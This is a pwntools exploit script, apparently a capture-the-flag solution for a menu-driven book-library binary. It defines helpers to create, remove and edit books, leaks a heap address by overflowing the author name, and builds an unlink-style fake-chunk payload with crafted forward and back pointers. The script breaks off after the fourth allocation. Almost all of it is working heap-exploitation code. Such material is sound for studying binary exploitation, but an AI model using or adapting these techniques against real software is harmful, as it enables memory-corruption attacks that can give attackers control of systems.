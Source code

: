 ```
def create(book_size, book_name, desc_size, desc):
    cmd(1)
    p.recvuntil(': ')
    p.sendline(str(book_size))
    p.recvuntil(': ')
    if len(book_name) == book_size:
        p.send(book_name)
    else:
        p.sendline(book_name)
    p.recvuntil(': ')
    p.sendline(str(desc_size))
    p.recvuntil(': ')
    if len(desc) == desc_size:
        p.send(desc)
    else:
        p.sendline(desc)


def remove(idx):
    cmd(2)
    p.recvuntil(': ')
    p.sendline(str(idx))


def edit(idx, desc):
    cmd(3)
    p.recvuntil(': ')
    p.sendline(str(idx))
    p.recvuntil(': ')
    p.send(desc)


def author_name(author):
    cmd(5)
    p.recvuntil(': ')
    p.send(author)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def main():
    # Your exploit script goes here

    # leak heap address
    p.recvuntil('name: ')
    p.sendline('x' * (0x20 - 5) + 'leak:')

    create(0x20, 'tmp a', 0x20, 'b') # 1
    cmd(4)
    p.recvuntil('Author: ')
    p.recvuntil('leak:')
    heap_leak = u64(p.recvline().strip().ljust(8, '\x00'))
    p.info('heap leak @ 0x%x' % heap_leak)
    heap_base = heap_leak - 0x1080

    create(0x20, 'buf 1', 0x20, 'desc buf') # 2
    create(0x20, 'buf 2', 0x20, 'desc buf 2') # 3
    remove(2)
    remove(3)

    ptr = heap_base + 0x1180
    payload = p64(0) + p64(0x101) + p64(ptr - 0x18) + p64(ptr - 0x10) + '\x00' * 0xe0 + p64(0x100)
    create(0x20, 'name', 0x108, 'overflow') # 4
```